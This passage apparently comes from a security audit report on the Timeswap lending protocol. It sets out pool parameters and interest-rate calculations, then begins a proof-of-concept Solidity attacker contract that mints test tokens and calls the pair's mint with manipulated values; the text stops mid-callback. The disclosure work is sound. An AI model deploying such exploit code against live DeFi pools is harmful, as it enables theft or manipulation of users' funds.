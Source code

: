 Here are the initialization values:

    uint112 xIncrease = 5_000 ether;
    uint112 yIncrease = (APR*xIncrease)/(SEC_PER_YEAR*100);
    uint112 zIncrease = (5*xIncrease)/3; //Static 167% CDP

With this configuration, I’ve calculated the interest rate to borrow on this pool using the functions defined here: [https://timeswap.gitbook.io/timeswap/deep-dive/borrowing](https://timeswap.gitbook.io/timeswap/deep-dive/borrowing) to be:

    yMax: 4.7533146923118e-06
    Min Interest Rate: 0.009374999999999765
    Max Interest Rate: 0.14999999999999625
    zMax: 1666.6666666666667

Around 1% to 15%.

Then, the attacker comes along (see line containing `let atakcontrak` and after). The attacker deploys the following contract:

    pragma solidity =0.8.4;
    
    import "hardhat/console.sol";
    import {ITimeswapMintCallback} from "./interfaces/callback/ITimeswapMintCallback.sol";
    import {IPair} from "./interfaces/IPair.sol";
    import {IERC20} from '@openzeppelin/contracts/token/ERC20/IERC20.sol';
    interface TestTokenAtt is IERC20{
        function mmint(uint256 amount) external;
    }
    
    contract Attacker is ITimeswapMintCallback {
    
        uint112 constant SEC_PER_YEAR = 31556926;
        TestTokenAtt internal jtok;
        TestTokenAtt internal usdc;
    
    constructor(address _jtok, address _usdc){
        jtok = TestTokenAtt(_jtok);
        jtok.mmint(10_000 ether);
        usdc = TestTokenAtt(_usdc);
        usdc.mmint(10_000 ether);
    }
    
    function timeswapMint(uint maturity, uint112 APR, address pairAddress) public{
        uint256 maturity = maturity;
        console.log("Maturity: ", maturity);
        address liquidityTo = address(this);
        address dueTo = address(this);
        uint112 xIncrease = 3;
        uint112 yIncrease = 1000000000000000;
        uint112 zIncrease = 5; //Static 167% CDP
        IPair(pairAddress).mint(maturity, liquidityTo, dueTo, xIncrease, yIncrease, zIncrease, "");
    }
    
    
    function timeswapMintCallback(
            uint112 assetIn,
            uint112 collateralIn,
            bytes calldata data
        ) override external{
            jtok.mmint(100_000 ether);
            usdc.mmint(100_000 ether);
            console.log("Asset requested:", assetIn);
            console.log("Collateral requested:", collateralIn);
            //check before
            uint256 beforeJtok = jtok.balanceOf(msg.sender);
            console.log("Attacker jtok before", beforeJtok);
            //transfer
            jtok.transfer(msg.sender, assetIn);